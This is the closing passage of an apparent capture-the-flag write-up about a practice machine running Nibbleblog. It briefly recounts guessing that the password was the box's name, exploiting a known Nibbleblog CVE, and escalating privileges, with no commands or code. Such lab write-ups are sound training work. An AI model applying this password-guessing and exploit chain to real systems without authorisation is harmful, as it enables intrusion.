foothold was hard to find and really frustrating, as it required to guess that
the password was the name of the box, and we only had 5 login attempts before
being blacklisted and having to reset the box. It was easy to identify a CVE and
exploit it once logged in on Nibbleblog though. Thankfully, the privilege
escalation was much easier and really classic.

Thanks for reading!
